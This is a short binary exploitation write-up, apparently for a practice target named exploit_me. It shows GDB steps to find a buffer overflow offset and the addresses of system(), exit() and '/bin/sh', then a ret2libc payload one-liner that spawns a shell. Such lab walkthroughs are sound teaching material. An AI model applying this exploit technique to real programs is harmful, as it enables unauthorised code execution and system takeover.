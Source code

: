 Binary Exploitation Writeup
Target Binary
We are working with a vulnerable binary named exploit_me. The goal is to gain shell access by exploiting a buffer overflow vulnerability and executing the system("/bin/sh") call.

Step 1: Finding the Offset
We first need to determine the offset at which the return address is overwritten. This is done using GDB:

```bash
gdb ./exploit_me
``` 

Inside GDB, we run the binary with a known pattern of characters:

```bash
run $(python -c 'print("A"*144)')
```
After observing where the program crashes, we identify the correct offset. In this case:

```bash
Offset = 140
```

Step 2: Gathering Useful Addresses
We set a breakpoint at the main function to analyze the binary and find the necessary addresses for exploitation:

```bash
b main
run
```

Getting the system() address:
```bash
p system
$1 = 0xb7e6b060
```
Finding the address of /bin/sh in memory:
```bash
find &system,+9999999, "/bin/sh"
0xb7f8cc58
```
Getting the exit() address (optional, for clean exit after shell):
```bash
p exit
$2 = 0xb7e5ebe0
```
Step 3: Crafting the Exploit
We now construct the payload with the following:

- Offset: 140 bytes of padding ("A" * 140)

- Return Address: Address of system() function

- Next 4 Bytes: Return address for system() (can be dummy, or use exit())

- Argument: Address of the /bin/sh string

```bash
./exploit_me `python -c 'print("A"*140 + "\x60\xb0\xe6\xb7" + "AAAA" + "\x58\xcc\xf8\xb7")'`
```
- \x60\xb0\xe6\xb7 → system address: 0xb7e6b060

- "AAAA" → placeholder for the return address (can also be exit)

- \x58\xcc\xf8\xb7 → "/bin/sh" address: 0xb7f8cc58

Result
Running the above command should spawn a shell, confirming successful exploitation.

